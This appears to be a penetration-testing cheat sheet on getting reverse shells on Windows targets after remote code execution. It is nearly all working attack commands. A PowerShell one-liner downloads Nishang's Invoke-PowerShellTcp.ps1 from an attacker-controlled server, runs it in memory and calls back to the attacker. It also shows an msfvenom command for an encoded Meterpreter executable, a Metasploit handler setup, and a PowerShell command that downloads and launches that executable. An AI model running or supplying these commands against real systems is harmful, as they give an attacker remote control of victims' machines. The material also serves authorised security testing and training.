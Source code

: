 The following repository contains some scripts for initial access, enumeration and privilege escalation.

```
https://github.com/samratashok/nishang
```

We will start by downloading the following reverse shell:

```
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
```

Then, we will start a python server to serve the file, and we will make the target download it and execute it (using RCE):

```
powershell iex (New-Object Net.WebClient).DownloadString('http://<attacker-ip>:<http-server-port>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <attacker-ip> -Port <reverse-shell-port>
```

or we could simply use powershell encoded reverse shell or any other shell from the following link:

```
https://www.revshells.com/
```

# Meterpreter Shell
To generate a x86 meterpreter encoded reverse shell we could use the following command:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell.exe
```

Then, we start a handler on metasploit:

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <ip>
set LPORT <port>
run
```

Now we download the file on the target (using RCE) and run it:

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:<port>/shell.exe','shell.exe')";powershell Start-Process "shell.exe"
```